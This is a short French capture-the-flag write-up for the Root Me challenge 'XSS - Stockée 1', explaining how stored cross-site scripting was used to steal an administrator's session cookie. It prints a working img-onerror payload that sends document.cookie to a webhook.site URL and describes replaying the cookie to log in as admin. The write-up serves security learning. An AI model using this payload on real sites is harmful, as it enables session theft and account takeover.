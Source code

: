 ```yaml
---
title: 'XSS - Stockée 1'
description: "Exploitation d'une vulnérabilité XSS stockée pour voler des cookies"
pubDate: 'Jul 1 2025'
heroImage: '/src/assets/root_me/rootme10-0.png'
---
```


## 9. XSS - Stockée 1

**Objectif :** Voler le cookie de session de l'administrateur et l'utiliser pour valider l'épreuve  
**Méthode :** Injection XSS stockée avec exfiltration de cookies  
**Outils utilisés :** Webhook.site / Injection de code / JS  
**Temps :** 25 minutes  


### Solution

Exploitation d'une vulnérabilité XSS stockée pour voler les cookies d'un administrateur.

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme10-0.png"/></div>

**Étapes :**
1. Tester l'injection de code avec `alert('XSS')` dans le champ description
2. Confirmer que l'injection fonctionne
3. Créer un webhook sur webhook.site pour capturer les données
4. Injecter le payload XSS :
   ```html
   <img src="x" onerror="new Image().src='https://webhook.site/602ea2d1-dbf7-4c77-a784-8c8381fb7ae6?cookie='+document.cookie">
   ```
5. Attendre que l'administrateur visite la page
6. Récupérer le cookie sur le webhook
7. Utiliser le cookie pour s'authentifier comme administrateur

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme10-1.png"/></div>

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme10-2.png"/></div>
<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme10-3.png"/></div>
<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme10-5.png"/></div>
<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme10-6.png"/></div>
<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme10-4.png"/></div>
